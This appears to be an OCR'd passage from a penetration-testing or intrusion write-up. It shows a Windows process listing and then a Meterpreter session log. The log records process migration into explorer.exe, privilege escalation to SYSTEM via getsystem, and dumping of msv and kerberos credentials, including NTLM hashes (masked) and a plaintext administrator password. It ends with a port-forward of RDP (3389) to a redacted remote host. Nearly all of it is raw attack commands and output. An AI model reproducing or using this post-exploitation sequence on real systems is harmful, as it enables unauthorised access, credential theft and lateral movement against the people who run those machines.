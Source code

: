 ```bash
2128 2084 explorer.exe x86 0 xxxxxxxxxxxx\Administrator C:\WINDOWS\Explorer.EXE
2208 2128 vmtoolsd.exe x86 0 xxxxxxxxxxxx\Administrator C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
2232 2128 ctfmon.exe x86 0 xxxxxxxxxxxx\Administrator C:\WINDOWS\system32\ctfmon.exe
2244 2128 sqlmangr.exe x86 0 xxxxxxxxxxxx\Administrator C:\Program Files\Microsoft SQL Server\80\Tools\Binn\sqlmangr.exe
2396 424 svchost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\System32\svchost.exe
2440 424 dllhost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\dllhost.exe
3008 2128 cmd.exe x86 0 xxxxxxxxxxxx\Administrator C:\WINDOWS\system32\cmd.exe
3024 3008 conime.exe x86 0 xxxxxxxxxxxx\Administrator C:\WINDOWS\system32\conime.exe
3180 636 wmiprvse.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\wbem\wmiprvse.exe
3248 828 wuauclt.exe xxxxxxxxxxxx\Administrator C:\WINDOWS\system32\wuauclt.exe
3380 376 logon.scr x86 0 xxxxxxxxxxxx\Administrator C:\WINDOWS\System32\logon.scr
```

```bash
meterpreter > migrate 2128
[*] Migrating from 3104 to 2128...
[*] Migration completed successfully. meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM meterpreter > msv

[+] Running as SYSTEM
[*] Retrieving msv credentials msv credentials

===============

AuthID Package Domain User Password
------ ------- ------ ---- --------

0;109205 NTLM xxxxxxxxxxxx Administrator lm{ xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}, ntlm{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx }
0;996 Negotiate NT AUTHORITY NETWORK SERVICE lm{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx }, ntlm{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx }
0;997 Negotiate NT AUTHORITY LOCAL SERVICE n.s. (Credentials KO)
0;54469 NTLM n.s. (Credentials KO)
0;999 NTLM WORKGROUP xxxxxxxxxxxx\$ n.s. (Credentials KO)
```

```bash
meterpreter > kerberos [+] Running as SYSTEM

[*] Retrieving kerberos credentials kerberos credentials

====================

AuthID Package Domain User Password
------ ------- ------ ---- --------

0;996 Negotiate NT AUTHORITY NETWORK SERVICE
0;997 Negotiate NT AUTHORITY LOCAL SERVICE
0;54469 NTLM
0;999 NTLM WORKGROUP xxxxxxxxxxxx$
0;109205 NTLM xxxxxxxxxxxx Administrator 123456

meterpreter > portfwd add -l 3389 -r x.x.x.x -p 3389 #IP已做处理
[*] Local TCP relay created: :3389 <-> x.x.x.x:3389
meterpreter > portfwd

Active Port Forwards

====================
Index Local Remote Direction
```